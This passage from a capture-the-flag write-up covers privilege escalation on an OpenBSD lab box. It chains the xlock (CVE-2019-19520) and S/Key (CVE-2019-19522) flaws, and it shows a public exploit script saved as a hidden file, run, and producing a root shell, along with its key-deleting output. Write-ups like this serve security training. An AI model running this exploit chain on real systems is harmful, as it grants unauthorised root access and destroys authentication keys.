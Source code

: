 ### Enumeration

There are three more CVEs in the [same post from
Qualys](https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-
vulnerabilities-openbsd.txt) beyond the authentication bypass:

  * Local privilege escalation via xlock [CVE-2019-19520]
  * Local privilege escalation via S/Key and YubiKey [CVE-2019-19522]
  * Local privilege escalation via su [CVE-2019-19519]

Reading each of these, the last doesn’t seem useful. The S/Key one jumps out
because of the box name, but it only jumps from the `auth` group to root, and
jennifer is not in auth:

    
    
    openkeys$ id
    uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
    

But, the `xlock` vulnerability will allow me to gain the privileges of the
`auth` group, so I can use these two together to get a shell as root.

### Shortcut Script

To just get root, there’s a beautiful script [on
GitHub](https://github.com/bcoles/local-
exploits/blob/master/CVE-2019-19520/openbsd-authroot) that will return a root
shell. I’ll open `vi` and paste in the code, and then set it executable:

    
    
    openkeys$ vi .df 
    openkeys$ chmod +x .df
    

Now just run it:

    
    
    openkeys$ ./.df
    ./.df[1]: penbsd-authroot: not found
    openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
    [*] checking system ...
    [*] system supports S/Key authentication
    [*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
    [*] compiling ...
    [*] running Xvfb ...
    [*] testing for CVE-2019-19520 ...
    [+] success! we have auth group permissions
    
    WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).
    
    [*] trying CVE-2019-19522 (S/Key) ...
    Your password is: EGG LARD GROW HOG DRAG LAIN
    otp-md5 99 obsd91335
    S/Key Password:
    openkeys#
    